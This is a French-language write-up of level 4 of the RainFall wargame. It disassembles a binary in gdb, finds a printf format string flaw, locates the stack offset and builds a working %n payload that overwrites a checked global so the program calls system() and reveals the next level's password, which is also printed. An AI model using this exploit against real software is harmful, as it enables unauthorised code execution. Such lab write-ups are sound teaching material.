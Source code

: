 # **Level 4**

Pour le `level4`, c'est la meme chose que le precedant nous avons un executable, en le desassemblant dans `gdb`, on remarque qu'il utilise `printf` pour afficher l'entree de l'utilisateur sur le terminal

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
=> 0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
=> 0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
On remarque en lisant le code qu'il compare le contenue de l'addresse `0x8049810` à `0x1025544` et que si les deux valeurs sont egales, il continue sinon le programme se termine.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
=> 0x08048492 <+59>:    cmp    $0x1025544,%eax
```


On test le programme

```
level4@RainFall:~$ ./level4
d
d
level4@RainFall:~$ ./level4
%x
b7ff26b0
```
On a de nouveau une `format string vulnerability`

En mettant un formatteur de string en entree, celui la est traduit pour renvoyer une valeur, cela signifie que le programme est vulnerable a ce qu'on appelle les `format string attack`

> [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)

Il faut trouver a quelle position notre addresse se trouve au moment du printf

```
level4@RainFall:~$ python -c "print'\x10\x98\x04\x08'+'%p '*20" > /var/crash/file
level4@RainFall:~$ cat /var/crash/file - | ./level4
0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049810 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

On trouve quelle est a la 12eme position donc nous pouvons construire notre payload sachant qu'on compare notre valeur a `0x1025544` soit `16930116`

```
python -c 'print"\x10\x98\x04\x08"+"%16930112X%12$n"'
```

> On mets `%16930112X` car on ecrit deja 4 caractere au debut

On execute le tout

```
level4@RainFall:~$ python -c 'print"\x10\x98\x04\x08"+"%16930112X%12$n"' > /var/crash/file
level4@RainFall:~$ cat /var/crash/file - | ./level4

....

                        B7FF26B0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

> ### NEXT : [Level 5](/level5/resources/README.md)
